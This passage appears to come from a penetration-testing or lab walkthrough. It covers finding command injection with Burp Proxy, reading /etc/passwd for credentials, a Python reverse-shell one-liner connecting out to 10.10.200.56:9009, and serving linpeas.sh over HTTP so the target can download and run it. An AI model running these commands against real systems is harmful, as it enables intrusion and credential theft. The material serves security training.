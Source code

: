 Now sign in to the site and using **Burp Proxy** (HTTP history) navigate through the website to discover interesting request.

Then, check the possible Command Execution in the all website input field.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

First, check the /etc/passwd file for possible clear-text credentials or hash of other priv users.

Otherwise get a Reverse shell (Python, Bash, ...)

{% code overflow="wrap" %}
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.200.56",9009));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}



## Linux Machine Enumeration

### Linpeas enum

Once we have access to the machine, using LinPeas to get information

<pre class="language-bash"><code class="lang-bash"><strong># copy linpeas.sh and run this on att machine
</strong><strong>python3 -m http.server
</strong>
wget http://IP/linpeas.sh
chmod +x lin.sh
./lin.sh
</code></pre>
